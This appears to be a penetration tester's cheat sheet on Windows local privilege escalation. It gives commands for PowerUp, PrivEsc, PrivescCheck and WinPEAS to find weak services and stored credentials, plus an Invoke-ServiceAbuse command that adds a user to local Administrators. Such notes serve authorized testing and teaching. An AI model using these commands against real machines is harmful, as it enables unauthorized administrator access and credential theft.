 ## Local PrivEsc

- [PowerUP](#powerup)
  * [Find Vulnerable Services](#find-vulnerable-services)
  * [Abuse Found Vulnerable Services](#abuse-found-vulnerable-services)
- [PrivEsc](#privesc)
  * [Find Vulnerable Services](#find-vulnerable-services-1)
- [PrivescCheck](#privesccheck)
- [WinPEAS](#winpeas)

### PowerUP
---
```powershell
C:> . .\PowerUp.ps1
```
#### Find Vulnerable Services

- Run All Checks
```powershell
C:> Invoke-AllChecks
```
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
#### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
# Make <user> member of the Admins group. Just need to relog session and that's it.
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<user>'
```

### PrivEsc
---
```powershell
C:> Invoke-PrivEsc
```
- Groups   : Groups of our interest when checking ACLs.
- Mode     : Mode to use - full or lhf (default).
- Extended : Switch enables lookups that may last for several minutes.

#### Find Vulnerable Services
- Run All Checks
```powershell
C:> Invoke-PrivEsc
```
- Full Check for Groups
```powershell
C:> Invoke-Privesc -Groups 'Users,Everyone,"Authenticated Users"' -Mode full -Extended
```
### PrivescCheck
---
Syntax:
```powerview
Invoke-PrivescCheck [[-Report] <string>] [[-Format] {TXT | HTML | CSV | XML}] [-Extended] [-Experimental] [-Force] [-Audit] [-Silent]  [<CommonParameters>]
```
Usage:
```powershell
C:> . PrivescCheck.ps1
C:> Invoke-PrivescCheck
```
  
### WinPEAS
---
WinPEAS is a binary to enumerate possible paths to escalate privileges locally
```powershell
        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information`
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search files that can contains credentials
        eventsinfo           Display interesting events information
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified

        Additional checks (slower):
        -lolbas              Run additional LOLBAS check
        -linpeas=[url]       Run additional linpeas.sh check for default WSL distribution, optionally provide custom linpeas.sh URL
```

